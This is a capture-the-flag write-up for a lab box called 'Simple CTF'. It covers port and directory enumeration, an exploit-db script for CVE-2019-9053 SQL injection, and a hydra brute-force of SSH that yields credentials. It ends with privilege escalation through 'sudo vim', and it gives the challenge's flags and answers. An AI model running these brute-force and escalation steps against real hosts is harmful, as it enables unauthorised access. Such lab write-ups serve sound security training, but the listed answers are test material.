









# Simple CTF writeup
The first task when beggining a CTF is enumeration

## Nmap 
```bash
namp -T4 -sV 10.10.140.110
```
The Nmap flag ```-sV``` is useful as it returns details to do with the versions of services running on the target 

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```
### How many services are running under port 1000?
We have found 3 ports 21, 80, 2222. 
since 2222 is greater than 1000 the answer is
> 2
### What is running on the higher port?
> ssh

## Port 80: Apache

Let's continue enumeration using Gobuster

## Gobuster
```
gobuster dir -u 10.10.140.110 -w /usr/share/wordlists/dirb/common.txt
```
To find Directories in the web server
```
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 301]
/simple               (Status: 301) [Size: 315] [--> http://10.10.140.110/simple/]
```
_Useful findings : ``/robots.txt``, ``/simple``_

### /robots.txt


### /simple

##### It appears that this site is using content management system(CMS). I scrolled down the page, and was able to find what version of this software is

##### After searching for the version in exploit db ,I found that there is an sql injuction vulnerablity in that version

### What's the CVE you're using against the application?
> CVE-2019-9053

### To what kind of vulnerability is the application vulnerable?
The shorthand for sqlInjuction is sqli
> sqli

```python3 46635.py -u http://10.10.117.187/simple/ -w rockyou.txt -c```
but its not working properly since it is built for older version of python
so use hydra to bruteforce username and password
```bash
hydra -l usernames.txt -P best110.txt ssh://10.10.140.110:2222 -t 4
```
```
[DATA] attacking ssh://10.10.140.110:2222/
[2222][ssh] host: 10.10.140.110   login: mitch   password: secret
```
### What's the password?
> secret

### Where can you login with the details obtained?
we got ssh user name and password 
> ssh
## Login into ssh
```
ssh mitch@10.10.140.110 -p 2222
pasword: secret
```


### What's the user flag?

```
cat user.txt
```
> G00d j0b, keep up!

### Is there any other user in the home directory? What's its name?
```
ls /home
```

> sunbath

### What can you leverage to spawn a privileged shell?
```
sudo -l
```

> vim
## Escalate Privilage
To escalate privilage we need to exploit vim
```
sudo vim
```

### What's the root flag?

> W3ll d0n3. You made it!
